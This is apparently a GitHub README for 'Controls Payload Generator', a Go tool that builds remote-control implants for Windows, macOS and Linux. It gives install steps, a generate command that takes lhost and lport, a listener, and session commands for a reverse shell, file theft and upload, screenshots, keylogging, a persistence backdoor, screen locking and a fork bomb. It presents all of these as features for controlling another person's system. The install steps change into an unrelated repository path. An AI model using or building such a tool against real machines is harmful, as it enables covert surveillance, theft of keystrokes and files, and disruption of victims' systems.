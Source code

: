 <p align="center">
  <img src="https://github.com/1os4r/Controls/blob/master/content/logo.png">
</p>

<h1 align="center">Controls Payload Generator</h1>
<p align="center">
  <a href="https://golang.org/">
    <img src="https://img.shields.io/badge/Golang-1.11-blue.svg">
  </a>
  <a href="https://github.com/1os4r/Controls/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-BSD%203-lightgrey.svg">
  </a>
  <a href="https://github.com/1os4r/Controls/blob/master/main.go">
    <img src="https://img.shields.io/badge/Release-3.0-red.svg">
  </a>
</p>

<p align="center">
  Controls用来生成控制远程操作系统的Poc。
</p>

## Install
```bash
$ go get github.com/1os4r/Controls
$ go get github.com/kbinani/screenshot
$ go get github.com/lxn/win
$ go get github.com/matishsiao/goInfo
$ go get golang.org/x/sys/windows
$ cd ~/go/src/github.com/HexChristmas/Christmas
$ go run main.go
```

## How to Use

命令    | 参数及介绍
:-----      |:-----
`generate`  |生成控制程序 (```e.g```. `generate lhost=192.168.0.100 lport=8080 fname=chaos --windows`)
`lhost=`    |指定目标ip
`lport=`    |指定目标端口
`fname=`    |指定输出文件名称
`--windows` |目标系统为``` Windows```
`--macos`   |猎目标系统为 ```Mac OS```
`--linux`   |目标系统为 ```Linux```
`listen`    |从本地的一个端口监听 (```e.g```. `listen lport=8080`)
`serve`     |服务文件
`exit`      |退出

命令    | 参数及介绍
:-----                  |:-----
`download`              |下载文件
`upload`                |上传文件
`screenshot`            |截屏
`keylogger_start`       |键盘记录
`keylogger_show`        |输出键盘记录内容
`persistence_enable`    |维持后门
`persistence_disable`   |移除后门
`getos`                 |获取系统名称
`lockscreen`            |锁定目标屏幕
`openurl`               |打开指定```URL```
`bomb`                  |内存炸弹
`clear`                 |清屏
`back`                  |挂起会话
`exit`                  |关闭会话

## Features

| 功能                 |  Linux  |  MacOS  |  Win |
|:-------------------------|:-------:|:------:|:-----:|
| `Reverse Shell`          |    X    |    X   |   X   |
| `Download File`          |    X    |    X   |   X   |
| `Upload File`            |    X    |    X   |   X   |
| `Screenshot`             |    X    |    X   |   X   |
| `Keylogger`              |    X    |        |       |
| `Persistence`            |    X    |        |       |
| `Open URL`               |    X    |    X   |   X   |
| `Get OS Info`            |    X    |    X   |   X   |
| `Fork Bomb`              |    X    |    X   |   X   |
| `Run Hidden`             |    X    |        |       |
